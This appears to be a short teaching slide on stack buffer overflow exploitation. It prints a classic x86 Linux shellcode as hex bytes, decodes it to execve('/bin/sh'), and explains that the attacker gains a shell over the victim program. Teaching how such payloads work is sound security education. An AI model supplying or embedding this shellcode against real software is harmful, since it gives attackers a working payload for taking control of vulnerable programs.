

# decoded StackOverflow  Payload
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
 =
{ execve("/bin/sh") ; }
 =
The victim app mutated to become a Shell,

the attacker now has a shell,
  with full control over stdin/stdout redirected to the shell.